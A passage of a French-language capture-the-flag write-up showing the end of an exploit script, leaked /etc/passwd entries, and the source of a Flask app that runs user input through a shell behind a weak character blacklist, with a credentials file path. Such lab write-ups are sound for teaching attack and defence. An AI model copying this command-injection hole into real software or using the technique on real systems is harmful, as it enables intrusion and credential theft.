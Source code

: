 ```python
    )                                                                                                                  
    output = unquote_plus(response.headers["Location"].split("genie?name=")[1])                                        
    print(output)
```

Je remarque deux utilisateurs sur le système :

```
sam:x:1000:1000:sam,,,:/home/sam:/bin/bash
nitish:x:1001:1001::/home/nitish:/bin/bash
```

On peut jeter un coup d'oeil à l'appli Flask pour mieux comprendre la filtrage qui était présent :

```python
import subprocess

from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)
app.secret_key = "key"

CREDS = "/home/nitish/.dev/creds.txt"

RCE = ["/", ".", "?", "*", "^", "$", "eval", ";"]


def validate(cmd):
    if CREDS in cmd and "cat" not in cmd:
        return True

    try:
        for i in RCE:
            for j in cmd:
                if i == j:
                    return False
        return True
    except Exception:
        return False


@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")


@app.route("/wish", methods=['POST', "GET"])
def wish():
    execute = request.form.get("cmd")
    if execute:
        if validate(execute):
            output = subprocess.Popen(execute, shell=True,
                                      stdout=subprocess.PIPE).stdout.read()
        else:
            output = "Wrong choice of words"

        return redirect(url_for("genie", name=output))
    else:
        return render_template('wish.html')


@app.route('/genie', methods=['GET', 'POST'])
def genie():
```